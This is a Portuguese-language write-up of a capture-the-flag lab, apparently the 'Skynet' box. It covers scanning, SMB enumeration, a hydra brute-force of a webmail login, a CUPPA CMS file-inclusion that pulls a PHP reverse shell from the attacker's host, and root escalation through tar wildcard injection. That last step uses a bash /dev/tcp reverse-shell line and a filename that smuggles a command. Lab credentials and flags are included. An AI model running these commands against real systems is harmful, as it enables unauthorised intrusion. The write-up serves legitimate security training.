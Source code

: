 # SCANNING
Com o comando 
```Kali
sudo nmap -A -Pn -T5 -v 10.10.76.34
```
iniciamos o escaneamento mais abrangente, sem realizar o PING, nas 1000 portas comum, de forma agressiva
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250131173426.png)
## Informações Levantadas
**Portas Abertas**: 22, rodando um serviço SSH OpenSSH 7.2p2 Ubuntu 4ubuntu2.7
			80, rodando um serviço WEB Apache httpd 2.4.18
			110, rodando um serviço de email POP3 Dovecot pop3d
			139, rodando um serviço
			143, rodando um serviço de email Dovecot imapd
			445, , rodando um serviço Samba 4.3.11
**SO**: Ubuntu 4.4
# Enumeração
Ao acessar o serviço WEB encontramos uma página mas sem formas de exploração aparente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172518.png)

Realizamos então a enumeração do serviço SMB e descobrimos algumas coisas interessantes
```Kali
enum4linux -a 10.10.255.32
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172131.png)
Conseguimos conectar no compartilhamento anonymous e identificamos um arquivo de log, que parece ser uma wordlist
```Kali
smbclient //10.10.255.32/anonymous -N
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211172249.png)
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132254.png)

Realizamos a enumeração do serviço WEB com o **gobuster** e identificamos um serviço de email

```Kali
gobuster dir -u http://10.10.255.32 -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132115.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125256.png)

# Exploração
Tentaremos descobrir a credencial do usuário milesdyson (nome de um compartilhamento) com a wordlist encontrada em log1 com o **hydra**, utilizando o **Burp Suite** para analisar a requisição e montar a sintaxe
```Kali
hydra -l milesdyson -P /home/rosembrick/log1.txt 10.10.255.32 http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:F=Unknown user or password incorrect" -v -T64 -I
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125533.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125612.png)


Após a tentativa, descobrimos a credencial e assim obtivemos acesso ao serviço de email
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124948.png)

login: milesdyson   password: cyborg007haloterminator
Numa das primeiras mensagens, há uma senha do serviço SMB possivelmente
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125214.png)


Conseguimos acesso ao compartilhamento do usuário milesdyson e obtemos acesso a um arquivo importante, chamado importan.txt com suposto diretório
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125717.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125803.png)

Ao acessarmos o diretório encontramos esta página e assim, tentamos mais uma vez enumerar com o **gobuster**
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%202025021125822.png)

Com o comando abaixo, identificamos uma página de login
```Kali
gobuster dir -u http://10.10.255.32/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/big.txt
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125057.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125924.png)

Procuramos por exploits que explorem o serviço CUPPA CMS e identificamos um exploit para executar um RFI
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125443.png)

Preparamos nosso exploit conforme descrição do script, alterando para o nosso host conforme se segue
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130055.png)

Com um listener aberto no Kali e um servidor Python para que o alvo se conecte e faça o dowload do nosso reverse shell por PHP, acessamos a página abaixo
http://10.10.255.32/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.23.22.193:443/exploit_php.php
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211125334.png)

E assim, conseguimos acesso ao alvo pelo usuário www-data.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124851.png)

Capturamos a flag do user
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131725.png)

**user:** 7ce5c2109a40f958099283600a9ae807
# Escalação de Privilégio
Realizamos uma enumeração interna com **linpeas.sh** baixado por um servidor python do nosso Kali
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211132021.png)

E identificamos esse script que realiza backup a cada 1 min com a ferramenta **tar**, passível de explorarmos para escalarmos privilégio
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124302.png)

![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124424.png)

Verificamos que o binário **tar** executa um comando em cada ponto de verificação do backup
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211124600.png)

Para isso preparamos nosso script para escalarmos para root com o comando abaixo
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130324.png)

```Kali
echo '#!/bin/bash > root_shell.sh
```
```Kali
echo 'bash -i >& /dev/tcp/10.23.22.193/4445 0>&1' >> root_shell.sh
```
Agora criaremos um **arquivo** chamado `--checkpoint-action=exec=bash root_shell.sh`, contendo o texto `/var/www/html` para que o `tar` executado dentro desse diretório, use o `--checkpoint`, e assim executar o nosso shell reverso `root_shell.sh`.
```Kali
echo "/var/www/html"  > "--checkpoint-action=exec=bash root_shell.sh"
```
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211130505.png)

Como o arquivo inicial `/home/milesdyson/backups/backup.sh`executa o binário **tar** a cada minuto, receberemos a shell de root em 1 minuto conforme abaixo.
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131601.png)

Já com acesso ao root, capturamos a flag de root
![Descrição da Imagem](https://github.com/r0s3mbr1ck/WriteUps/blob/main/Images/Pasted%20image%2020250211131643.png)


**root:** 3f0372db24753accc7179a282cd6a949

